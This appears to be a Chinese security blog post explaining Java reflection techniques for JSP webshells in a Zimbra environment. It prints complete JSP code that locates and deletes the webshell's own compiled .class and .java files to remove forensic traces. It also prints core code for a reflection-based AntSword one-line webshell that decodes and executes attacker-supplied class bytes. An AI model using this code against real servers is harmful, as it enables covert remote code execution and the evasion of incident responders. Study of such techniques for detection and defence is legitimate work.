 ```yaml
---
layout: post
title: Java利用技巧——通过反射实现webshell编译文件的自删除
---
```



## 0x00 前言
---

我们知道，当我们访问jsp文件时，Java环境会先将jsp文件转换成`.class`字节码文件，再由Java虚拟机进行加载，这导致了Java服务器上会生成对应名称的`.class`字节码文件。对于webshell，这会留下痕迹。
为了实现自删除`.class`字节码文件，我们可以通过反射获得`.class`字节码文件的路径，再进行删除。本文将以Zimbra环境为例，结合[AntSword-JSP-Template](https://github.com/AntSwordProject/AntSword-JSP-Template)，分析利用思路。

## 0x01 简介
---

本文将要介绍以下内容：

- 通过反射实现webshell编译文件的自删除
- 通过反射实现AntSword-JSP-Template

## 0x02 通过反射实现webshell编译文件的自删除
---

根据上篇文章《Java利用技巧——通过反射修改属性》的内容，我们按照映射`request`->`_scope`->`_servlet`->`rctxt`->`jsps`，通过多次反射最终能够获得JspServletWrapper实例

查看JspServletWrapper类中的成员，`jsps`->`value`->`ctxt`->`servletJavaFileName`保存`.java`编译文件的路径，`jsps`->`value`->`ctxt`->`classFileName`保存`.class`编译文件的路径，示例如下图

![Alt text](./2-1.png)

为了只筛选出当前jsp，可以通过request类的`getServletPath()`方法获得当前Servlet，如下图

![Alt text](./2-2.png)

从ctxt对象获取servletJavaFileName可以调用JspCompilationContext类的`getServletJavaFileName()`方法，如下图

![Alt text](./2-3.png)

从ctxt对象获取classFileName可以调用JspCompilationContext类的`getClassFileName()`方法，如下图

![Alt text](./2-4.png)

综上，由此我们可以得出通过反射获取编译文件路径的实现代码如下：

```
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="java.util.concurrent.ConcurrentHashMap" %>
<%@ page import="java.util.*" %>
<%@ page import="org.apache.jasper.servlet.JspServletWrapper" %>
<%@ page import="org.apache.jasper.JspCompilationContext" %>
<%       
    Field f = request.getClass().getDeclaredField("_scope");
    f.setAccessible(true);  
    Object obj1 = f.get(request);
    f = obj1.getClass().getDeclaredField("_servlet");
    f.setAccessible(true);
    Object obj2 = f.get(obj1);
    f = obj2.getClass().getSuperclass().getDeclaredField("rctxt");
    f.setAccessible(true);
    Object obj3 = f.get(obj2);
    f = obj3.getClass().getDeclaredField("jsps");
    f.setAccessible(true);
    ConcurrentHashMap obj4 = (ConcurrentHashMap)f.get(obj3);   
    JspServletWrapper jsw = (JspServletWrapper)obj4.get(request.getServletPath());
    JspCompilationContext ctxt = jsw.getJspEngineContext();
    out.println(ctxt.getServletJavaFileName());
    out.println(ctxt.getClassFileName());
%>
```

删除编译文件的代码如下：

```
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="java.util.concurrent.ConcurrentHashMap" %>
<%@ page import="java.util.*" %>
<%@ page import="org.apache.jasper.servlet.JspServletWrapper" %>
<%@ page import="org.apache.jasper.JspCompilationContext" %>
<%@ page import="java.io.File" %>
<%       
    Field f = request.getClass().getDeclaredField("_scope");
    f.setAccessible(true);  
    Object obj1 = f.get(request);
    f = obj1.getClass().getDeclaredField("_servlet");
    f.setAccessible(true);
    Object obj2 = f.get(obj1);
    f = obj2.getClass().getSuperclass().getDeclaredField("rctxt");
    f.setAccessible(true);
    Object obj3 = f.get(obj2);
    f = obj3.getClass().getDeclaredField("jsps");
    f.setAccessible(true);
    ConcurrentHashMap obj4 = (ConcurrentHashMap)f.get(obj3);   
    JspServletWrapper jsw = (JspServletWrapper)obj4.get(request.getServletPath());
    JspCompilationContext ctxt = jsw.getJspEngineContext();
    File targetFile;
    targetFile = new File(ctxt.getClassFileName());
    targetFile.delete();
    targetFile = new File(ctxt.getServletJavaFileName());
    targetFile.delete();
%>
```

## 0x03 通过反射实现AntSword-JSP-Template
---

rebeyond在[《利用动态二进制加密实现新型一句话木马之Java篇》](https://xz.aliyun.com/t/2744)介绍了Java一句话木马的实现方法，[AntSword-JSP-Template](https://github.com/AntSwordProject/AntSword-JSP-Template)也采用了相同的方式

我在测试[AntSword-JSP-Template](https://github.com/AntSwordProject/AntSword-JSP-Template)的过程中，发现编译文件会多出一个，例如`test.jsp`，访问后，生成的编译文件为`test_jsp.class`和`test_jsp.java`，如果使用了[AntSword-JSP-Template](https://github.com/AntSwordProject/AntSword-JSP-Template)，会额外生成编译文件`test_jsp$U.class`

rebeyond在[《利用动态二进制加密实现新型一句话木马之Java篇》](https://xz.aliyun.com/t/2744)提到：

> “正常情况下，Java并没有提供直接解析class字节数组的接口。不过classloader内部实现了一个protected的defineClass方法，可以将byte[]直接转换为Class
因为该方法是protected的，我们没办法在外部直接调用，当然我们可以通过反射来修改保护属性，不过我们选择一个更方便的方法，直接自定义一个类继承classloader，然后在子类中调用父类的defineClass方法。”

这里我打算通过反射修改保护属性，调用ClassLoader类的`defineClass()`方法

在ClassLoader类中，`defineClass()`方法有多个重载，如下图

![Alt text](./3-1.png)

这里选择`defineClass(byte[] b, int off, int len)`

rebeyond在[《利用动态二进制加密实现新型一句话木马之Java篇》](https://xz.aliyun.com/t/2744)还提到：

> “如果想要顺利的在equals中调用Request、Response、Seesion这几个对象，还需要考虑一个问题，那就是ClassLoader的问题。JVM是通过ClassLoader+类路径来标识一个类的唯一性的。我们通过调用自定义ClassLoader来defineClass出来的类与Request、Response、Seesion这些类的ClassLoader不是同一个，所以在equals中访问这些类会出现java.lang.ClassNotFoundException异常”

解决方法同样是复写ClassLoader的如下构造函数，传递一个指定的ClassLoader实例进去：

```
ClassLoader loader = new ClassLoader(getClass().getClassLoader()) {};
```

最终，得到通过反射实现[AntSword-JSP-Template](https://github.com/AntSwordProject/AntSword-JSP-Template)的核心代码：

```
Method d= ClassLoader.class.getDeclaredMethod("defineClass",byte[].class, int.class, int.class);
d.setAccessible(true);
ClassLoader loader = new ClassLoader(getClass().getClassLoader) {};
Class result = (Class) d.invoke(loader, base64Decode(data),0,base64Decode(data).length); 
result.newInstance().equals(pageContext);
```

访问通过反射实现[AntSword-JSP-Template](https://github.com/AntSwordProject/AntSword-JSP-Template)的`test.jsp`后，额外生成的编译文件为`test_jsp$1.class`

## 0x04 小结
---

本文介绍了通过反射实现webshell编译文件自删除和[AntSword-JSP-Template](https://github.com/AntSwordProject/AntSword-JSP-Template)，记录关于反射的学习心得。


---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)




